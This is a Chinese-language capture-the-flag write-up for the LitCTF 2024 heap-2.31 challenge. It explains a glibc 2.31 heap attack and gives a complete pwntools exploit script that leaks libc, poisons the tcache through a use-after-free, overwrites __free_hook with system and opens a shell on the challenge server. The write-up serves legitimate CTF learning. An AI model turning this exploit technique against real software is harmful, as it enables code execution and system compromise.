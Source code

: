 ```yaml
---
title: '[LitCTF 2024]heap-2.31'
date: 2024-11-13 13:50 +0800
categories: [ctf,pwn]
tags: [unsortbin_leaklibc,tacahe,libc2.31,free_hook]
---
```

> Problem: [[LitCTF 2024]heap-2.31](https://www.nssctf.cn/problem/5616)

## 思路

填满`tacahe`，利用`unsortbin`泄漏出`free_hook`,利用`uaf`修改`tacahe`的`fd`实现任意内存地址读写，劫持`free_hook`

## EXP

```python3

from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
elf = ELF('./heap')
lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#io = gdb.debug('./heap')
io = remote('node4.anna.nssctf.cn',28242)
def create(idx,size):
    io.sendlineafter(b'>>',str(1))
    io.sendlineafter(b'idx?',str(idx))
    io.sendlineafter(b'size?',str(size))

def delete(idx):
    io.sendlineafter(b'>>',str(2))
    io.sendlineafter(b'idx?',str(idx))

def show(idx):
    io.sendlineafter(b'>>',str(3))
    io.sendlineafter(b'idx?',str(idx))

def edit(idx,content):
    io.sendlineafter(b'>>',str(4))
    io.sendlineafter(b'idx?',str(idx))
    io.sendlineafter(b'content : \n',content)

for i in range(9):
    create(i,0x88)
for i in range(8):
    delete(i)

show(7)
free_hook = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))+0x2268
log.info(hex(free_hook))
lib_base = free_hook-lib.sym['__free_hook']
sys_addr = lib_base+lib.sym['system']

edit(5,p64(free_hook))
[create(i,0x88)for i in range(10,13)]
edit(12,p64(sys_addr))

edit(8,b'/bin/sh\x00')
delete(8)
io.interactive()
```

## 总结

要注意`tacahe`利用`uaf`修改为`free_hook`地址时，不能使用最末尾（第七个）的块，那样会导致无法申请，出现脱链的状况。
